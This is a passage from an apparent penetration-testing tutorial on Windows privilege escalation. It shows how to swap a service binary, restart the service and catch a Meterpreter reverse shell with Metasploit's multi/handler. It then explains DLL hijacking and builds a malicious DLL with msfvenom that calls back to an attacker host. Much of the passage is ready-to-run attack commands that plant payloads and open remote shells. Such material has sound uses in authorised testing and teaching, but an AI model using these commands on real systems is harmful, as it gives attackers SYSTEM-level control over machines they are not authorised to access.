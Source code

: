 In target shell

```
move Exploitme.exe Exploitme.exe.1
upload /root/Desktop/Exploitme.exe 
```
```
reboot
```
or 
```
sc stop "Exploitme.exe"
```
```
sc start "Exploitme.exe"
```

And start your multi/handler listener to get system shell

```
use exploit/multi/handler
msf exploit(multi/handler) set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) set lhost <targetIP>
msf exploit(multi/handler) set lport <port>
msf exploit(multi/handler) exploit
```

## DLL Hijacking

Whenever an application started in windows it looks for DLL's(Dynamic link libraries) because it contains data, code, or resources needed for the running of applications.

Whenever application look need to load DLL, it will look for

* The directory from which the application is loaded
* C:\Windows\System32
* C:\Windows\System
* C:\Windows
* The current working directory
* Directories in the system PATH environment variable
* Directories in the user PATH environment variable

What if we replace our malicious DLL in the path, whenever application looks for DLL, it will execute malicious payload DLL that will give us a reverse shell.


First, we have to identify the case of a process in which an application looks for executables using [process monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) tool


We got a service name 'Hijackme.exe' which is looking for hacker.dll

Let's exploit DLL hijacking

Create a DLL payload using msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<AttackerIP> -f dll>hacker.dll
```
upload payload on the target system and locate it in the dll way.

